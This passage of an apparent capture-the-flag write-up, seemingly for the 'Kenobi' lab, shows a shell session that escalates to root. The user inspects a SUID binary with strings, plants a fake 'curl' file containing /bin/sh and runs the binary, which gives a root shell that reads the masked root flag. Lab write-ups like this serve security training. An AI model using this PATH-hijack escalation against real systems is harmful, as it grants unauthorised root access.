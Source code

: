 ### What is the root flag (/root/root.txt)?

```bash
kenobi@kenobi:~$ strings /usr/bin/menu
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
__isoc99_scanf
puts
__stack_chk_fail
printf
system
__libc_start_main
__gmon_start__
GLIBC_2.7
GLIBC_2.4
GLIBC_2.2.5
UH-`
AWAVA
AUATL
[]A\A]A^A_
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
 Invalid choice

<REDACTERD>

.data
.bss
.comment

kenobi@kenobi:~$ echo /bin/sh > curl
kenobi@kenobi:~$ chmod 777 curl
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# pwd
/home/kenobi
# cd /root
# ls
root.txt
# cat root.txt
**********************************
```
